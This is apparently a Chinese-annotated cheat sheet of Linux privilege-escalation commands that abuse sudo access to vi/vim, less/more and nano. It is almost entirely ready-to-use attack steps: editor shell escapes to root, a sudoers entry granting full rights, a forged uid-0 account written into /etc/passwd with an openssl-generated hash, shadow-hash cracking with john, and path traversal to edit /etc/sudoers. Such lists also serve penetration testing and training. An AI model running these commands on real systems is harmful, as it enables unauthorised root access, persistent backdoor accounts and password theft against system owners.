 ### vi/vim

```
sudo vi
:shell

:set shell=/bin/bash:shell
:!bash

:set shell=/bin/sh
:shell

sudo vi -c ‘!sh’

visudo #添加低权限用户
test ALL=(ALL:ALL) ALL
sudo -l
sudo bash
```

### less/more

```
less /etc/passwd
!/bin/sh

more /home/pelle/myfile
!/bin/bash
# 进入后!sh 回车
sudo less /etc/hosts
sudo more /etc/hosts
sudo man ls
```

### nano

```
#修改passwd，增加用户登录
openssl passwd -1 -salt test1 123456
$1$test1$4mkw3HovqvIQpGIJM9AlP/
nano /etc/passwd # 添加用户
test1:$1$test1$4mkw3HovqvIQpGIJM9AlP/:0:0::/root/:/bin/bash
# 获取shadow文件root用户密文进行破解
john passwd

#直接获取shell
nano # 进入编辑器，通过反向shell 获取root shell
Ctrl + R
Ctrl + x
# sudo 可执行nano，但目录受限/var/opt
sudo nano /var/opt/../../etc/sudoers
```
